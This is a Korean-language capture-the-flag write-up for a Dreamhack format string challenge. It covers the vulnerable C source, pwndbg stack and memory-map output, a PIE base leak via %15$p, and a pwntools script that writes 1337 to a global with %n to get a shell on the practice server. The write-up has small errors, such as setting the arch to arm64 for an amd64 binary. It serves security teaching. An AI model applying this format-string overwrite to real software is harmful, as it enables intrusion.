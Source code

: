 # Format String Bug - Dreamhack
## Challenge Info
- Date: YYYY-MM-DD
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy/medium/hard
- Points: 1
- Provided Files: fsb_overwrite.c, fsb_overwrite(ELF)
- tools:
## Brief Description
Exploit Tech: Format String Bug에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec fsb_overwrite
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
``` c
// Name: fsb_overwrite.c
// Compile: gcc -o fsb_overwrite fsb_overwrite.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_string(char *buf, size_t size) {
  ssize_t i = read(0, buf, size);
  if (i == -1) {
    perror("read");
    exit(1);
  }
  if (i < size) {
    if (i > 0 && buf[i - 1] == '\n') i--;
    buf[i] = 0;
  }
}

int changeme;

int main() {
  char buf[0x20];
  
  setbuf(stdout, NULL);
  
  while (1) {
    get_string(buf, 0x20);
    printf(buf);
    puts("");
    if (changeme == 1337) {
      system("/bin/sh");
    }
  }
}
```
## Vulnerability
### FSB(Format String Bug)
``` c
printf(buf);
```
`buf`는 사용자가 입력한 값이 들어가고 어떠한 검증/필터링 없이 `printf` 함수의 인자로 사용된다.  
## Exploit
### Strategy
PIE가 활성화 되어있어, PIE base 주소를 알아야 `changeme`를 덮어쓸 수 있다. 따라서 첫 번째로 PIE base 주소를 알아내고, `changeme`의 offset과 더하여 `changeme`의 주소를 알아낸 후 1337을 해당 주소에 덮어쓰면 공격에 성공할 수 있다.  
### Exploitation Steps
``` sh
$ ./fsb_overwrite
AAAAAAAA %x %x %x %x %x %x %x %x %x %x
AAAAAAAA ad5f7c20 20 c1a077e2 c1b0ef10 c1b2c040 41414141 20782520 78252078
 ad5f7c20 6
```
RDI, RSI, RDX, RCX, R8, R9, [RSP], [RPS+0x8], [RPS+0x10]...  
AAAAAAAA가 6번째 인자로 받는 것을 확인할 수 있다. RDI에는 포맷 문자열이 들어가기 때문에 `printf` 입장에서 RSI부터 인덱스 1번으로 시작한다.  
``` sh
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000555555555293 <+0>:     endbr64
   0x0000555555555297 <+4>:     push   rbp
   0x0000555555555298 <+5>:     mov    rbp,rsp
=> 0x000055555555529b <+8>:     sub    rsp,0x30
   0x000055555555529f <+12>:    mov    rax,QWORD PTR fs:0x28
   0x00005555555552a8 <+21>:    mov    QWORD PTR [rbp-0x8],rax
```
`main`의 시작 주소는 `0x0000555555555293`다. `main`의 시작 주소를 심볼로 활용하면 PIE base를 구할 수 있다.
``` sh
pwndbg> x/32gx $rsp
0x7fffffffded0: 0x00000000646f6f67      0x000000001f8bfbff
0x7fffffffdee0: 0x00007fffffffe279      0x0000000000000064
0x7fffffffdef0: 0x0000000000001000      0xf1612d93200daf00
0x7fffffffdf00: 0x0000000000000001      0x00007ffff7db3d90
0x7fffffffdf10: 0x0000000000000000      0x0000555555555293
0x7fffffffdf20: 0x00000001ffffe000      0x00007fffffffe018
0x7fffffffdf30: 0x0000000000000000      0x887fbc4234a2d361
0x7fffffffdf40: 0x00007fffffffe018      0x0000555555555293
0x7fffffffdf50: 0x0000555555557d90      0x00007ffff7ffd040
0x7fffffffdf60: 0x778043bd8a80d361      0x778053f44e28d361
0x7fffffffdf70: 0x00007fff00000000      0x0000000000000000
0x7fffffffdf80: 0x0000000000000000      0x0000000000000000
0x7fffffffdf90: 0x0000000000000000      0xf1612d93200daf00
0x7fffffffdfa0: 0x0000000000000000      0x00007ffff7db3e40
0x7fffffffdfb0: 0x00007fffffffe028      0x0000555555557d90
0x7fffffffdfc0: 0x00007ffff7ffe2e0      0x0000000000000000
```
pwndbg에서 `printf` 직전에 breakpoint 설정 후, "good" 입력 이후, `rsp`를 출력해본 결과, `[rsp]`에 "good"이 저장된 것을 확인할 수 있다. 이때 `[rsp+0x48]` 위치에 `0x0000555555555293`가 저장되어 있다. 
``` sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
    0x555555554000     0x555555555000 r--p     1000       0 fsb_overwrite
    0x555555555000     0x555555556000 r-xp     1000    1000 fsb_overwrite
    0x555555556000     0x555555557000 r--p     1000    2000 fsb_overwrite
    0x555555557000     0x555555558000 r--p     1000    2000 fsb_overwrite
    0x555555558000     0x555555559000 rw-p     1000    3000 fsb_overwrite
    0x7ffff7d87000     0x7ffff7d8a000 rw-p     3000       0 [anon_7ffff7d87]
    0x7ffff7d8a000     0x7ffff7db2000 r--p    28000       0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db2000     0x7ffff7f47000 r-xp   195000   28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f47000     0x7ffff7f9f000 r--p    58000  1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7f9f000     0x7ffff7fa0000 ---p     1000  215000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa0000     0x7ffff7fa4000 r--p     4000  215000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa4000     0x7ffff7fa6000 rw-p     2000  219000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7fa6000     0x7ffff7fb3000 rw-p     d000       0 [anon_7ffff7fa6]
    0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000       0 [anon_7ffff7fbb]
    0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000       0 [vvar]
    0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000       0 [vdso]
    0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000       0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000    2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fef000     0x7ffff7ffa000 r--p     b000   2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000   37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000   39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffde000     0x7ffffffff000 rw-p    21000       0 [stack]
```
해당 값은 fsb_overwrite 바이너리가 매핑된 영역에 포함되는 주소(main의 시작 주소이므로 당연함)이므로 이 주소를 이용하면 PIE 베이스 주소를 구할 수 있다. 
``` sh
pwndbg> p/x 0x555555555293 - 0x555555554000
$1 = 0x1293
```
`[RSP-0x48]`에 저장되어 있는 (main 시작)주소와 PIE 베이스 주소 간의 오프셋은 0x1293다. `[RSP-0x48]`은 포맷 스트링의 15번째 인자이므로, `%15$p`로 읽을 수 있다.  
``` sh
$ readelf -s fsb_overwrite | grep changeme
    40: 000000000000401c     4 OBJECT  GLOBAL DEFAULT   26 changeme
```
`%15$p`를 입력해서 출력한 주소의 값에서 `0x1293`을 빼면 PIE 베이스 주소가 된다. PIE 베이스 주소에 `changeme`의 오프셋을 더하면 `changeme`의 주소를 구할 수 있다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| dummy | -x10 |
| buf | -0x30 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 17489)
context.arch = "arm64"

elf = ELF('./fsb_overwrite')

# changeme addr leak
p.sendline(b'%15$p')
leaked = int(p.recvline()[:-1], 16)
log.info(f'leaked: {leaked}')
PIE_base = leaked - 0x1293
changeme = PIE_base + elf.symbols['changeme']
log.info(f'PIE_base: {PIE_base}')
log.info(f'changeme: {changeme  }')

# payload
payload = b''
payload += b'%1337c' 
payload += b'%8$n' 
payload += b'A' * 6 # 8의 배수를 위한 padding, 10 + 6 = 16(0x10)
payload += p64(changeme) # 16byte 뒤 8번째 인자
p.sendline(payload)
# low -> high
# %1337c%8 $nAAAAAA chageme_addr
# [RSP], [RSP+0x8], [RSP+0x10]

# interactive
p.interactive()
```

